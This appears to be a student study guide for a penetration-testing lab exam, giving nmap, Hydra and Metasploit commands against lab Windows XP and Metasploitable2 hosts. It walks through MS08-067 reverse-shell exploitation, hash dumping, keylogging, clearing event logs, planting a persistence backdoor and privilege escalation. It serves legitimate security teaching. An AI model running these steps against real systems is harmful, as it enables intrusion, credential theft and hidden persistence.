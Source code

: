 # Practical Exam 2 Practice

>Author: Dongyi Guo

* During the formal test, you are only using Kali Linux, steps for setting up other machines are here for your own practice.
* Everything that is inside ```<...>``` requires you to find proper answer to fill in.

## Question 1

#### Linux Network Setup (Kali, Metasploitable2):

To assign IP  on Linux:

```bash
ip a a <IP>/<Prefix> dev <NetworkInterface>
```

To check current IP configuration, use:

```bash
ip a
```

or

```bash
ifconfig
```

and check the ```inet``` parameter of your network interface for IPv4 address. You only need to config IP Kali during you test, for Metasploitable2 , run the setup command with ```sudo``` with msfadmin.

#### Windows Network Setup:

* You don't need to do this during your formal test.

To setup network on Windows 7 and higher:

* Go to Network and Sharing Center, click on the connection.
* Then select Properties.
* Then highlight the "Internet Protocol Version 4 (TCP/IPv4)", select Properties.
* Assign IP accordingly.

For Windows XP:

* Go to Control Panel.
* Select Network Connection.
* Double-click the network.
* Select Properties.
* Then highlight "Internet Protocol [TCP/IP]", select Properties.
* Assign IP accordingly.

## Question 2

To find live hosts on current network, use ```nmap```:

```bash
nmap -sn <NetworkAddress/Prefix>
```

For port scanning:

```bash
nmap <HostAddress>
```

For OS information:

```bash
nmap -O -v <HostAddress>
```

To turn off the firewall on Windows (for your own practice) :

* Search "Windows Firewall" and select the option with exactly these 2 words.
* Click "Turn Windows Firewall on or off" on side menu.
* Turn off the firewall.

## Question 3

To brute-force a password of a given username with a specific service protocol on a remote host, use ```hydra```:

* You will need a password dictionary to power the brute-force operation.

```bash
hydra -l <LoginUsername> -P <PathToPasswordDictionary> <HostIPAddress> <ServiceProtocol> -t <ParallelAttempts>
```

To check all available service protocols, use

```bash
man hydra
```

## Question 4

Windows XP can be exploited by:

* VNC injection, returns a GUI view or control
* Meterpreter, returns a command prompt to perform miscellaneous actions on target host.

For VNC injection, while in Metasploitable Framework prompt ( ```msf6>``` ): 

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/vncinject/reverse_tcp
set LHOST <KaliIPAddress>
set RHOST <XPIPAddress>
set ViewOnly false
exploit
```

For Meterpreter:

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set LHOST <KaliIPAddress>
set RHOST <XPIPAddress>
exploit
```

During Meterpreter session ( ```meterpreter>``` ), commands that could be useful:

```bash
cd <DirectoryPath> # Change directory
ls # List directory
pwd # Current directory
sysinfo # System information
ipconfig # Network information
screenshot # Take a screenshot from target host
hashdump # Dump all user's hashes on the screen
search -f <filename> # Search file based on name in current directory
download <RemotePath> <LocalPath> # Remote download file from target host to local
# Remember the path for download command has to be Unix type, for Windows '\',
# Either double it '\\' or change back to '/'.

clearev # Clean event logs

getpid # Get current process ID
ps # List current Processes on target host
migrate <processID> # Migrate to process ID
# Keylogger only works when Meterpreter is paratisitizing a process with relative high privilege:
keyscan_start # Start key logging
keyscan_dump # Dump key logging
keyscan_stop # Stop key logging

# Backgroud current session
background
# Or
bg
# Or ctrl + z
```

To add backdoor on the Meterpreter session, background the session, then in MSF prompt:

```bash
use exploit/windows/local/persistence
set LHOST <KaliIPAddress>
set LPORT 445
set STARTUP SYSTEM # DO NOT lowercase SYSTEM, as it is parameter value
sessions # Get the meterpreter session's ID
set session <MeterpreterSessionID> 
exploit
```

Then, use multi/handler to listen the incoming connection:

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <KaliIPAddress>
set LPORT 445
run # alias of exploit, use any
```

After that, if XP gets rebooted, it will send back the connection and Kali will enter Meterpreter prompt automatically.

## MSF Essentials

In MSF prompts, several things:

```bash
search <Keyword> # Search exploits via keyword
show options # Give current configurable parameters for current exploit and payload
show paylaods # Show possible payloads for current exploit
show targets # Show possible targets for current exploit
```

* Use ```setg``` instead of ```set``` to preserve parameter values across different exploits with the same parameter name.
* The parameter names are case-insensitive, but if the parameter values are given accepted value (Accepted: ...), you must match the case:

```bash
set sTArTuP SYSTEM # That is okay
set STARTUP system # NOT OKAY
```

## Post-Exploitation Information Gathering

* This means gathering information after you retrieve administrative priviledge on a target.

If you have a reverse shell session and you want to upgrade it to Meterpreter session: use:

```bash
sessions # Check the session ID of your reverse shell session
sessions -u <ReverseShellSessionID>
```

If you have a unprivileged Meterpreter session, to find exploit escalating your privilege, use:

```bash
sessions # Check the session ID of your unprivileged session
use post/multi/recon/local_exploit_suggester
set session <UnprivilegedMeterpreterSessionID>
run
```

to find possible vulnerabilities can be used to escalate your priviledge.

Once you have the administrative privilege, to find all modules that are helpful for information gathering, use:

```bash
# For Linux
search post/linux/gather
# For Windows
search post/windows/gather
```

Common useful modules to gather information about your target:

```bash
use post/<linux/windows>/gather/checkvm # Identify whether a target is virtual machine, and if so what virtualisation it is
use post/linux/gather/checkcontainer # Identify whether a target is a containerized, and if so what type of container it is
use post/linux/gather/hashdump # Dump user's hashes on screen
use post/windows/gather/smart_hashdump # Dump user's hashes on screen and save them into /root/.msf4/loot/
use post/linux/gather/enum_protections # List target's security protection measurements
use post/linux/gather/enum_configs # List target's service configurations and save them into /root/.msf4/loot/
use post/linux/gather/enum_network # List target's network infrastructure information and configurations and save them into /root/.msf4/loot/
use post/linux/gather/enum_system # List target's system information and save them into /root/.msf4/loot/
```

Then set the Meterpreter session and run to gather the information:

```bash
set session <MeterpreterSessionID>
run
```


